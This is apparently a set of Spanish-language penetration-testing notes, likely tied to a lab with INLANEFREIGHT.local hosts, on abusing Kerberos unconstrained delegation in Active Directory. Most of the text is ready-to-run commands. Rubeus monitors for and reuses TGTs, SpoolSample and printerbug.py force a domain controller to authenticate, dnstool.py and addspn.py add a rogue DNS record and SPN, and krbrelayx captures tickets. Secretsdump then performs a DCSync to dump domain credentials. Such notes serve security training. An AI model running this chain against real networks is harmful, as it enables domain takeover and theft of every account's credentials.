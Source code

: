 # Sobre computadoras

## Esperando la autenticación de un usuario privilegiado

Si logramos comprometer un servidor que tiene habilitada la Unconstrained delegation, y posteriormente un administrador de dominio inicia sesión, podremos extraer su TGT y usarlo para movernos lateralmente y comprometer otras máquinas, incluidos los controladores de dominio.

Rubeus es la herramienta ideal para este ataque. Como administrador local, Rubeus puede ejecutarse para supervisar los tickets almacenados. Si se encuentra un TGT en un ticket TGS, Rubeus nos lo mostrará.

### 1)Monitoreo de tickets
Ponemos a Rubeus en modo monitoreo esperando que los usuarios se conecten al servidor.

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Usamos el ticket para pediro otro ticket con otro servicio


    .\Rubeus.exe asktgs /ticket:<ticket> /service:<servicio>/dc01.INLANEFREIGHT.local /ptt

Si esto no funciona:

    .\Rubeus.exe renew /ticket:<ticket> /ptt

Ahora podemos aprovechar este ticket para realizar acciones en el dc01 como el usuario privilegiado.

## Aprovechando el error de impresora


Es muy similar a la anterior, simplemente que aprovechamos una falla en el MS-RPRN (Print system remote protocol) que puede obligar a un servidor a autenticarse frente a otro


Para esto utilizaremos la herramienta: **SpoolSample**:

    https://github.com/leechristensen/SpoolSample

### 1) Ponemos el rubeus en modo monitor:

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Corremos SpoolSample

    .\SpoolSample.exe <target> <our_server>

### 3) Conseguimos el ticket y continuamos con el ataque anterior.

Si el ticket es del DC, una vez importado, lo renovamos y con mimikatz podemos realizar un DCSync ;)



# Sobre los usuarios

En el caso de los usuarios, necesitaremos tener control del user y permisos de **GenericWrite**, **WriteSPN** o **WriteProperty** sobre el atributo **ServicePrincipalName**.

El ataque consiste en crear un servicio a nombre del usuario con Unconstrained Delegations para que este herede dichos privilegios, de esta manera, los usuarios o computadoras que  se conecnten a este servicio entregarán su ticket.

### 1) Creamos un DNS Falso

En la máquina atacante creamos un DNS falso:

    python dnstool.py -u dominio\\usuario -p contraseña -r roguecomputer.inlanefreight.local -d 10.10.14.2 --action add 10.129.1.207
### Agregamos un SPN falso al usuario vulnerable para que comparta un servicio en el DNS falso

De esta manera el servicio heredará sus privilegios de delegación

    python addspn.py -u dominio\\usuario -p contraseña --target-type samname -t sqldev -s CIFS/roguecomputer.inlanefreight.local dc01.inlanefreight.local

### 3) Ponemos a capturar los tickets

    sudo python krbrelayx.py -hashes :<hash_de_sqldev>

### 4) Forzamos al DC o a otro user a autenticarse contra el DNS falso

    python3 printerbug.py dominio/usuario:contraseña@IP_DC roguecomputer.inlanefreight.local
### 5) Con el ticket del DC hacemos DCSync

    export KRB5CCNAME=DC01$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
    secretsdump.py -k -no-pass dominio/DC01$
